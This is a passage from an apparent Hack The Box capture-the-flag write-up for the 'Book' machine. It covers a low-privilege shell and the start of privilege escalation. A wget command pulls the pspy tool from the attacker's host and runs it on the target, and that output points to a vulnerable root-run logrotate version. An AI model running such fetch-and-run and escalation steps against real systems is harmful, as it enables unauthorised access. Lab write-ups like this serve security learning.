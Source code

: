 ```bash


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul  8 23:38:16 2020 from 10.10.14.11
reader@book:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
reader@book:~$ cat /home/reader/user.txt
51c1d4b5************************
```

## Privilege escalation

```bash
luc@kali:~/HTB/Book$ cp /opt/pspy-binaries/pspy32 .
luc@kali:~/HTB/Book$ python3 -m http.server
```

```bash
reader@book:/tmp$ wget 10.10.14.11:8000/pspy32 -q
reader@book:/tmp$ chmod +x pspy32
reader@book:/tmp$ ./pspy32
...
2020/07/08 23:35:25 CMD: UID=0    PID=1635   | /usr/sbin/logrotate -f /root/log.cfg
...
reader@book:/tmp$ /usr/sbin/logrotate --version
logrotate 3.11.0
```

Running [pspy](https://github.com/DominicBreuker/pspy) shows that `/usr/sbin/logrotate` is running as root. We can also see that version `3.11.0`, which is vulnerable to a privilege escalation ([packetstormsecurity.com](https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html)), is used.

```bash
reader@book:~$ ls -R
.:
backups  lse.sh user.txt

./backups:
access.log  access.log.1
```

Running `ls -R` in the home directory of `reader` shows a `backup` folder which contains two log files `access.log` and `access.log.1`. These files are probably checked by `/usr/sbin/logrotate`.
